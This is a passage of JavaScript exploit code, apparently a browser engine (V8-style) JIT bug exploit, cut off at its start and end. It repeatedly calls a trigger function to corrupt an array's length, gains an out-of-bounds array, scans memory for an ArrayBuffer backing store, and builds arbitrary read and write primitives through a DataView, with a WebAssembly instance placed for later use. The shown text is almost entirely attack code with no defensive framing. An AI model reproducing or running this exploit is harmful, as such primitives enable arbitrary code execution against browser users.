 ```javascript
  x -= 5;
  x = Math.max(x, 0); // [1]

  corrupting_array = [0.1, 0.1];
  corrupted_array = [0.1];
  obj = {mark: 0xdead, obj: wasmInstance};
  
  corrupting_array[x] = length_as_double;

  return [corrupting_array, corrupted_array];
}

for (let i = 0; i < 30000; ++i) {
  trigger(giant_array);
}

var oob_array = trigger(giant_array)[1];

console.log("[+] conrrupted array length : 0x" + hex(oob_array.length));


gc();

var backing_store_idx = 0;
var search_space = [[0x8902000/8, (0x8940000/8)-1], [0x8213000/8, (0x8280000/8)-1], [(0x8040000-8)/8, 0x805b000/8], [0x8100000/8, (0x818d000/8)-1], [0x8740000/8, (0x8900000/8)-1], [0x8901000/8, (0x8940000/8)-1]];

for(let i = 0; i < search_space.length; i++)
{
	var find = 0;
	for(let j = search_space[i][0]; j < search_space[i][1]; j++)
	{
		if((f2i(oob_array[j]) & 0xffffffffn) == 0x12333n /*|| ((f2i(oob_array[j])) >> 32n) == 0x12333n*/){
			backing_store_idx = j + 1;
			console.log("[+] find backing_store : 0x" + hex(f2i(oob_array[backing_store_idx])));
			if(((f2i(oob_array[j+1])) & 0xfffn) == 0x0n){
				find = 1;
				break;
			}
		}
		else if(((f2i(oob_array[j])) >> 32n) == 0x12333n){
			backing_store_idx = j;
		}
	}
	if(find == 1) break;
}

var data_view = new DataView(arraybuf);

function dataview_read64(addr)
{
	oob_array[backing_store_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	oob_array[backing_store_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
```